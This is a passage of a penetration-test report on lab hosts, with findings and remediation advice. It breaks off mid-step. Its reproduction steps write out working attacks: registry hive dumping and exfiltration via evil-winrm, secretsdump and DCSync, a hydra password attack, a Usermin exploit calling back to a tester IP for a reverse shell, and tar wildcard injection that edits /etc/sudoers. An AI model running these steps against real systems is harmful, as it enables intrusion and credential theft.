

### Post-Exploitation

**Finding F-03 - Recoverable Privileged Secrets on a Member Host**

**Affected Systems:** AD-HOST-02 / AD-DC-01

**Observed Impact:** A recovered domain administrator password enabled domain controller access and directory credential replication.

**Severity Rationale:** CRITICAL reflects the demonstrated domain-wide impact after compromise of a member host. This is an environment-specific rating that includes the validated attack chain.

**Vulnerability Explanation:**

Administrative access to AD-HOST-02 allowed export of the SAM, SYSTEM, and SECURITY registry hives. Offline extraction recovered a `DefaultPassword` secret that subsequently authenticated as the domain administrator. The material impact is the presence of a domain-level credential on a less trusted member host. Registry export by a local administrator is an expected capability, not a standalone Windows vulnerability. The evidence does not establish which application or configuration originally stored this password.

**Vulnerability Fix:**

- **Remove Unnecessary Privileged Secrets:** Identify the configuration responsible for the stored password and remove domain administrator credentials from member-host autologon, service, and administrative workflows.
- **Rotate Affected Credentials:** Reset exposed account and service passwords through a coordinated recovery process. If domain secrets were replicated, assess domain-wide credential recovery, including controlled `krbtgt` rotation.
- **Separate Administrative Tiers:** Restrict domain administrator logons to approved administrative systems. Use dedicated accounts and managed service identities where supported.
- **Monitor Credential Access and Replication:** Alert on unusual registry hive exports and directory replication requests from unauthorized sources. Protect and remove exported hives after approved evidence retention.

**Severity:** CRITICAL

**Detailed Reproduction Steps:**

Using the administrative session, the tester exported the SAM, SYSTEM, and SECURITY registry hives to a temporary directory and downloaded them for offline analysis.
- Backup hives to a temp folder.
```powershell
reg.exe save hklm\sam C:\temp\sam
reg.exe save hklm\system C:\temp\system
reg.exe save hklm\security C:\temp\security
```
- Use evil-winrm' built-in download feature to exfiltrate hives.
```powershell
download sam tmp/hives/SAM
download system tmp/hives/system
download security tmp/hives/
```



The tester used Impacket's `secretsdump.py` on the assessment workstation to extract credential material from the exported hives.
```bash
secretsdump.py local -sam SAM -system system -security security -o secretsdump
```
```bash
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: REDACTED_SECRET
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
<SNIP>
[*] DefaultPassword
(Unknown User):REDACTED_PASSWORD_04
[*] DPAPI_SYSTEM
dpapi_machinekey:REDACTED_SECRET
dpapi_userkey:REDACTED_SECRET
[*] NL$KM
 [REDACTED_KEY_MATERIAL]
 [REDACTED_KEY_MATERIAL]
 [REDACTED_KEY_MATERIAL]
 [REDACTED_KEY_MATERIAL]
NL$KM:REDACTED_SECRET
[*] _SC_cloudbase-init
(Unknown User):REDACTED_PASSWORD_05
[*] Cleaning up...
```



The extracted `DefaultPassword` entry contained `REDACTED_PASSWORD_04` without an associated username. Testing that password against the enumerated domain account list identified valid credentials for `NORTHSTAR\REDACTED_ADMIN` on AD-DC-01.
```bash
nxc smb 10.10.138.152 -u reaper-logs/ad_users.txt -p 'REDACTED_PASSWORD_04'
```



The validated domain credentials enabled the next stage of testing against AD-DC-01.

## AD-DC-01: 10.10.138.152

### Attack Summary

- The tester authenticated using the domain administrator credentials recovered from AD-HOST-02 (F-03).
- Interactive access and proof-file retrieval validated control of the domain controller.
- Successful DCSync returned domain account credential material, demonstrating domain-level impact.

### Post-Exploitation

The tester authenticated to AD-DC-01 through Evil-WinRM using the credentials recovered from AD-HOST-02 and retrieved the lab proof file.
```bash
evil-winrm-py -i 10.10.138.152 -u REDACTED_ADMIN -p 'REDACTED_PASSWORD_04'
```

**Proof Screenshot:**

```bash
whoami;hostname;ipconfig;cat proof.txt
```



**proof.txt content:** REDACTED_PROOF

The tester used the recovered domain administrator credentials to request directory replication through Impacket's `secretsdump.py`. Successful retrieval of domain account hashes demonstrated domain-level compromise.
```bash
secretsdump.py 'northstar.example/REDACTED_ADMIN':'REDACTED_PASSWORD_04'@AD-DC-01.northstar.example -target-ip 10.10.138.152 -o dcsync
```
```bash
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

<SNIP>

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
REDACTED_ADMIN:500:REDACTED_SECRET:REDACTED_SECRET:::
REDACTED_GUEST:501:REDACTED_SECRET:REDACTED_SECRET:::
REDACTED_KRBTGT:502:REDACTED_SECRET:REDACTED_SECRET:::
```



# Standalone System Assessment

## Target #1 APP-HOST-01 - 192.168.138.157

### Attack Summary

- Anonymous FTP exposed PDF documents containing candidate usernames in author metadata.
- A username-based dictionary attack recovered credentials also valid for Usermin.
- Authenticated GnuPG command injection established a shell as the affected user (F-04).
- Unsafe wildcard expansion in a root cron task enabled a sudoers modification and root access (F-05).

### Service Enumeration

**Port Scan Results**

| Server IP Address | Ports Open              |
| ----------------- | ----------------------- |
| 192.168.138.157       | **TCP**: 21,22,80,20000 |

**Nmap Scan Results:**
```bash
nmap -Pn -v --min-rate 500 --max-retries 1 -p- 192.168.138.157
```
```bash
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
20000/tcp open  dnp
```

*Usermin v. 1.820 Port 20000*

*Information harvested via anonymous access enabled successful username-based password guessing, which was directly leveraged against an unpatched administrative web portal to achieve remote code execution and initial system compromise.*

### Initial Access - Usermin Authenticated RCE

**Finding ID:** F-04

**Affected Systems:** APP-HOST-01

**Observed Impact:** Anonymous information exposure and a weak password enabled authenticated application command execution as a local user.

**Severity Rationale:** CRITICAL is retained for the combined path from unauthenticated network access to shell execution. This grouped finding contains distinct root causes that should be tracked separately during remediation.

**Vulnerability Explanation:** 

Initial network enumeration revealed an FTP service on port 21 configured with anonymous access enabled. File metadata and artifacts retrieved from the FTP server exposed names used as candidate system usernames. Using the extracted username list, a targeted username-based dictionary attack was executed against the FTP service using `hydra`, recovering valid credentials for the account `REDACTED_USER_02`. These credentials were subsequently reused to authenticate to the Usermin web interface on port 20000 (version 1.820). The referenced Usermin 1.820 proof of concept targets command injection in GnuPG functionality. Exploiting this path via a modified PoC script returned an interactive reverse shell, granting initial system access under the security context of the `REDACTED_USER_02` user.

**Vulnerability Fix:**

- **Remove Anonymous Access to Internal Documents:** Disable anonymous FTP where unnecessary and remove internal backup material from anonymously accessible directories. Review document metadata before public distribution.
- **Replace Weak and Reused Passwords:** Rotate the affected account password and enforce passwords resistant to username-based guessing. Review other services using the same account.
- **Restrict and Update Usermin:** Limit management access to approved sources, update to a supported release, and verify that the demonstrated GnuPG injection path no longer works. Disable unnecessary modules.
- **Limit Authentication Attacks:** Apply appropriate throttling and monitoring to FTP and management interfaces. Prefer an encrypted file-transfer service where file transfer is required.

**Technical Reference:** [Exploit-DB 50234](https://www.exploit-db.com/exploits/50234) documents Usermin 1.820 authenticated command execution through GnuPG functionality and lists no CVE.

**Severity:** CRITICAL

**Detailed Reproduction Steps:**

The FTP service accepted the anonymous login represented by `REDACTED_FTP_USER:REDACTED_FTP_PASSWORD`. The tester identified PDF files in `backup/` and downloaded them for offline review.
```bash
lftp -u REDACTED_FTP_USER,REDACTED_FTP_PASSWORD 192.168.138.157
```
```bash
$ lftp -u REDACTED_FTP_USER,REDACTED_FTP_PASSWORD 192.168.138.157
lftp REDACTED_FTP_USER@192.168.138.157:~> ls -la
drwxr-xr-x    3 0        120          4096 Nov 02  2022 .
drwxr-xr-x    3 0        120          4096 Nov 02  2022 ..
drwxr-xr-x    2 114      120          4096 Nov 02  2022 backup
lftp REDACTED_FTP_USER@192.168.138.157:/> cd backup/
lftp REDACTED_FTP_USER@192.168.138.157:/backup> ls -la
drwxr-xr-x    2 114      120          4096 Nov 02  2022 .
drwxr-xr-x    3 0        120          4096 Nov 02  2022 ..
-rw-r--r--    1 114      120        145831 Nov 02  2022 BROCHURE-TEMPLATE.pdf
-rw-r--r--    1 114      120        159765 Nov 02  2022 CALENDAR-TEMPLATE.pdf
-rw-r--r--    1 114      120        336971 Nov 02  2022 FUNCTION-TEMPLATE.pdf
-rw-r--r--    1 114      120        739052 Nov 02  2022 NEWSLETTER-TEMPLATE.pdf
-rw-r--r--    1 114      120        888653 Nov 02  2022 REPORT-TEMPLATE.pdf
lftp REDACTED_FTP_USER@192.168.138.157:/backup> mget *
2270272 bytes transferred in 3 seconds (754.6 KiB/s)
Total 5 files transferred
```



Document metadata analysis with `exiftool` identified three author names: `REDACTED_USER_02`, `REDACTED_USER_03`, and `REDACTED_USER_04`. These names were used as candidate usernames.
```bash
exiftool * | grep Author
```
```bash
Author                          : REDACTED_USER_02  
Author                          : REDACTED_USER_03  
Author                          : REDACTED_USER_04
```


The tester used the candidate names as both username and password inputs in a small dictionary attack against FTP. The service accepted `REDACTED_USER_02:REDACTED_PASSWORD_06`; the original password matched the account name.
```bash
hydra -L users.txt -P users.txt ftp://192.168.138.157
```
```bash
$ hydra -L users.txt -P users.txt ftp://192.168.138.157
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-08-25 19:13:14
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ftp://192.168.138.157:21/
[21][ftp] host: 192.168.138.157   login: REDACTED_USER_02   password: REDACTED_PASSWORD_06
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-08-25 19:13:18
```



The same credentials also authenticated successfully to Usermin on TCP port 20000.
```bash
https://APP-HOST-01:20000/
```



The tester adapted the [Usermin 1.820 proof of concept](https://www.exploit-db.com/exploits/50234) to the assessment callback address and executed the authenticated GnuPG command injection path.
- Start a listener
```bash
nc -lvnp 1337
```
- Execution of the adapted proof of concept:
```bash
python3.14 exploit2.py -u APP-HOST-01 -l REDACTED_USER_02 -p REDACTED_PASSWORD_06
```

The callback established an interactive shell as `REDACTED_USER_02`.



**Proof of Concept Code Here:**
- ExploitDB [50234](https://www.exploit-db.com/exploits/50234)
```bash
# Modify this section for reverse shell:
def exploit(args):

    listen_ip = "192.168.45.249"  # Tester callback address, not the listener bind address
    listen_port = 1337
```

**Proof Screenshot:**
```bash
id;hostname;ifconfig;cat local.txt
```



**local.txt content:** REDACTED_PROOF

### Privilege Escalation - Tar Cron Job Abuse

**Finding ID:** F-05

**Affected Systems:** APP-HOST-01

**Observed Impact:** An initial local account could influence a privileged cron task and obtain root privileges.

**Severity Rationale:** HIGH reflects the requirement for local write access and the resulting complete host compromise.

**Vulnerability Explanation:** 

Local enumeration of system cron jobs revealed a scheduled task (`/etc/cron.d/2minutes`) executing every two minutes as `root`. The task navigates to `/opt/admin` and runs `tar -zxf /tmp/backup.tar.gz *`. The recorded command extracts an archive despite being described as a backup task. Because the command utilizes an unquoted asterisk (`*`) wildcard, the shell expands all files in `/opt/admin` as positional arguments passed directly to `tar`. A low-privileged user can drop command-line flags disguised as filenames (specifically `--checkpoint=1` and `--checkpoint-action=exec=sh privesc.sh`) into `/opt/admin`. When the cron job executes, `tar` parses these files as options and executes the specified script, granting immediate `root` privileges (e.g., modifying `/etc/sudoers` to permit passwordless `sudo` execution).

**Vulnerability Fix:** 

- **Eliminate Wildcard Usage in System Cron Scripts:** Modify the scheduled task script to explicitly specify paths or files rather than relying on shell wildcard expansion (`*`).
- **Avoid Invoking Arbitrary Binaries with Wildcards in Writable Paths:** Change the cron task command to avoid performing operations inside directories where low-privileged users possess write access, or enforce strict directory ownership and ACLs (for example, root ownership and mode `755`, after confirming application requirements).
- **Use Absolute Paths and Safe Arguments:** Put the task in a root-owned script that unprivileged users cannot modify. Use explicit paths or an option terminator where appropriate and validate archive ownership and contents. Quoting `*` alone does not preserve the intended file selection. Review the separate risk of privileged extraction from `/tmp`.

**Severity:** HIGH

**Detailed Reproduction Steps:**

Manual review of scheduled tasks identified `/etc/cron.d/2minutes`.
```bash
ls -la /etc/cron*
-rw-r--r-- 1 root root 1136 Mar 23  2022 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x  2 root root 4096 Nov 22  2022 .
drwxr-xr-x 99 root root 4096 Aug 26 17:51 ..
-rw-r--r--  1 root root  102 Mar 23  2022 .placeholder
-rw-r--r--  1 root root  115 Nov 22  2022 2minutes
-rw-r--r--  1 root root  201 Jan  8  2022 e2scrub_all
```

The cron task runs a privileged tar extraction every two minutes. Its name suggests a backup workflow, but the recorded `-x` option performs extraction.
```bash
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
*/2 * * * * root cd /opt/admin && tar -zxf /tmp/backup.tar.gz *
```



The tester placed option-like filenames in the writable working directory so that wildcard expansion passed additional arguments to the privileged `tar` process. The injected checkpoint action invoked the privilege escalation script.
- Create parameter files in the `/opt/admin` directory:
```bash
cd /opt/admin
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'
```
- Create `privesc.sh` containing the sudoers modification. The nested quoting below corrects the original transcription; the screenshot remains the historical evidence:
```bash
echo 'echo "REDACTED_USER_02 ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > privesc.sh
```

After the scheduled task executed, the tester confirmed the new sudo permission and opened a root shell.
- Check sudo privileges:
```bash
sudo -l
User REDACTED_USER_02 may run the following commands on
        APP-HOST-01:
    (root) NOPASSWD: ALL
```
- Sudo to root shell:
```bash
sudo bash
root@APP-HOST-01:/opt/admin# id
uid=0(root) gid=0(root) groups=0(root)
```



### Post-Exploitation

**Proof Screenshot:**
```bash
id;hostname;ifconfig;cat proof.txt
```



**proof.txt content:** REDACTED_PROOF

## Target #2 APP-HOST-02 - 192.168.138.155

### Attack Summary

- The exposed Mobile Mouse service accepted unauthenticated remote control input.
- The Metasploit Mobile Mouse module established an initial shell after manual attempts failed (F-06).
- Write access affecting a privileged service binary and excessive service control rights enabled binary replacement.
- Restarting the service produced a SYSTEM shell (F-07).

### Service Enumeration

| Server IP Address | Ports Open                            |
| ----------------- | ------------------------------------- |
| 192.168.138.155       | **TCP**: 80,5986,7680,9099,9999,35913 |

**Nmap Scan Results:**
```bash
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Microsoft IIS httpd 10.0
5986/tcp  open  ssl/wsmans?
7680/tcp  open  pando-pub?
9099/tcp  open  unknown
9999/tcp  open  abyss?
35913/tcp open  unknown
```

*Mobile Mouse 3.6.0.4 Port 9099*

*A metasploit exploit module was deployed against target.*

### Initial Access - Mobile Mouse RCE

**Finding ID:** F-06

**Affected Systems:** APP-HOST-02

**Observed Impact:** An unauthenticated network client could obtain command execution under the remote control application account.

**Severity Rationale:** CRITICAL reflects shell execution without supplied credentials from the tested network position.

**Vulnerability Explanation:**

Initial network enumeration identified an instance of Mobile Mouse Server version 3.6.0.4 listening on the target host (default TCP port 9099 / UDP port 9098). The exposed remote control interface accepted unauthenticated input that was used to launch operating system commands. Manual exploit attempts did not establish a shell. The successful path used the Metasploit `exploit/windows/misc/mobile_mouse_rce` module, returning a shell under the application user context. The service accepted remote control input without effective authentication; the evidence does not establish every packet-validation detail.

**Vulnerability Fix:**

- **Remove or Remediate Mobile Mouse Server:** Remove the utility where unnecessary. If retained, obtain vendor confirmation of a fixed release and verify the demonstrated attack no longer succeeds. A specific fixed version was not established in this assessment.
- **Enforce Authentication & PIN Access:** Where supported, require authentication for all client connections and verify that it blocks the demonstrated control path. Do not rely on an untested PIN setting alone.
- **Restrict Access via Host Firewall:** Bind the server interface exclusively to trusted local network segments or restrict exposure of TCP/UDP ports 9098 and 9099 using host-based firewalls (`netsh advfirewall` / `ufw`).
- **Run with Least Privilege:** Ensure the background service operates under a low-privileged service account rather than an administrative interactive session context.

**Severity:** CRITICAL

**Detailed Reproduction Steps:**

Manual exploitation attempts did not return a shell. The successful Metasploit procedure is recorded below:
- Start metasploit.
```bash
sudo msfconsole -q
```

The tester selected `exploit/windows/misc/mobile_mouse_rce` and configured the target and callback options.



- Target and callback configuration:
```bash
